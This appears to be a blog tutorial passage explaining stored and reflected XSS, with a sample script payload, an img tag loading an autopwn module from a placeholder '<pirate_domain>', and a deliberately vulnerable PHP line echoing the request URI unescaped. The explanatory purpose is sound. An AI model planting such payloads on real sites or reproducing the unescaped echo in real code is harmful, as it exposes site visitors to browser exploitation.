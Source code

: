 There are two types of **XSS** flaw:

- **Stored XSS:** which is a flaw that will be stored permanently on the server,
- **XSS on the fly:** which can only be done through an Input client (_HTTP GET, HTTP POST, etc._).

As we will see, these two flaws have exactly the same origin: vulnerable page code to users' input bad handling.
{: .text-justify}

### **THE STORED XSS**

It can be done when a site stores and displays data entered by one or more customers. This is for example the case of forums which allow multiple users to comment.
{: .text-justify}

If the web application does not correctly process the requests sent by the users, then it becomes possible to divert the initial use by integrating a piece of code into a workstation.
{: .text-justify}

For example by typing as a message:
{: .text-justify}

{% highlight javascript %}
<script>alert("There you go!")</script>
{% endhighlight %}

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/posts_img/XSS_example1.png){: style="margin: 1em"}

The real attacker objective, being to take control of your station, rather than displaying a message "for the _lolz_" , he will instead try to use a module of his own by exploiting a vulnerability in your browser, or a key exploit. Practically talking through **BeEF** , **autopwn** or **metasploit** :

{% highlight javascript %}
<img src = "//<pirate_domain>/autopwn" border='0'width='1' height='1'>
{% endhighlight %}

The countermeasure to this attack type is unfortunately the site's owner's sole responsibility. To him, it will be a question of ensuring that all user inputs are properly cleaned, by filtering each client sent data in order to detect and deactivate any code that an attacker would attempt to inject. _You can refer to the_ [_OWASP site_](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)_for this._
{: .text-justify}

### **XSS ON THE FLY**

Now suppose that your site does not store customer data, but that on the other hand user inputs are (_and rather badly_) processed by(_usually_ _ **JavaScript** _) client-side code .
{: .text-justify}

For example, imagine the following code, indicating that the none existing page:
{: .text-justify}

{% highlight php %}
<?php echo "Page ".urldecode($_SERVER[REQUEST_URI])."Not Found"; ?>
{% endhighlight %}

